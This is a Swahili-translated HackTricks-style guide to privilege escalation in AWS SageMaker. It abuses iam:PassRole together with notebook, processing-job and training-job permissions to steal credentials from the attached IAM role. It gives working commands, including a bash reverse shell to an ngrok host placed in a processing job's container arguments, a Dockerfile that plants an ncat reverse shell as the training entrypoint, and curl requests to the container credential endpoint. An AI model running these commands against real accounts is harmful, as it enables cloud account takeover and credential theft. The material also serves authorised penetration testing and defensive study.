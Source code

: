 # AWS - Sagemaker Privesc

{{#include ../../../banners/hacktricks-training.md}}

## AWS - Sagemaker Privesc



### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Anza kuunda noteboook na IAM Role ili kupata iliyoambatanishwa nayo:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Majibu yanapaswa kuwa na uwanja wa `NotebookInstanceArn`, ambao utaonyesha ARN ya mfano wa notebook mpya ulioanzishwa. Tunaweza kisha kutumia API ya `create-presigned-notebook-instance-url` kuunda URL ambayo tunaweza kutumia kufikia mfano wa notebook mara itakapokuwa tayari:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigate to the URL with the browser and click on \`Open JupyterLab\`\` in the top right, then scroll down to “Launcher” tab and under the “Other” section, click the “Terminal” button.

Sasa inawezekana kufikia akiba ya metadata ya IAM Role.

**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya sagemaker iliyotajwa.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Ikiwa kuna Jupyter **notebooks tayari zinaendesha** kwenye hiyo na unaweza kuorodhesha hizo kwa `sagemaker:ListNotebookInstances` (au kuzipata kwa njia nyingine yoyote). Unaweza **kuunda URL kwa ajili yao, kuzipata, na kuiba akiba kama ilivyoonyeshwa katika mbinu ya awali**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya sagemaker lililounganishwa.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Mshambuliaji mwenye ruhusa hizo anaweza kufanya **sagemaker itekeleze processingjob** iliyo na jukumu la sagemaker lililounganishwa. Mshambuliaji anaweza kuashiria ufafanuzi wa kontena ambalo litakimbizwa katika **AWS managed ECS account instance**, na **kuiba akidi za jukumu la IAM lililounganishwa**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya sagemaker lililotajwa.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Mshambuliaji mwenye ruhusa hizo ataweza kuunda kazi ya mafunzo, **ikiendesha kontena chochote** juu yake na **jukumu lililounganishwa** nalo. Hivyo, mshambuliaji ataweza kuiba akidi za jukumu hilo.

> [!WARNING]
> Hali hii ni ngumu zaidi kutekeleza kuliko ile ya awali kwa sababu unahitaji kuunda picha ya Docker ambayo itatuma rev shell au creds moja kwa moja kwa mshambuliaji (huwezi kuashiria amri ya kuanzia katika usanidi wa kazi ya mafunzo).
>
> ```bash
> # Unda picha ya docker
> mkdir /tmp/rev
> ## Kumbuka kwamba kazi ya mafunzo itaita executable inayoitwa "train"
> ## Ndio maana ninaweka rev shell katika /bin/train
> ## Weka thamani za <YOUR-IP-OR-DOMAIN> na <YOUR-PORT>
> cat > /tmp/rev/Dockerfile <<EOF
> FROM ubuntu
> RUN apt update && apt install -y ncat curl
> RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
> RUN chmod +x /bin/train
> CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
> EOF
>
> cd /tmp/rev
> sudo docker build . -t reverseshell
>
> # Ipelekwe kwa ECR
> sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
> sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> ```
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya sagemaker lililotajwa.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Mshambuliaji mwenye ruhusa hizo ataweza (kwa uwezekano) kuunda **kazi ya mafunzo ya hyperparameter**, **akikimbia kontena yoyote** juu yake na **jukumu lililounganishwa** nalo.\
_Sijafanya unyakuzi kwa sababu ya ukosefu wa muda, lakini inaonekana kama unyakuzi wa awali, jisikie huru kutuma PR yenye maelezo ya unyakuzi._

## Marejeleo

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{{#include ../../../banners/hacktricks-training.md}}
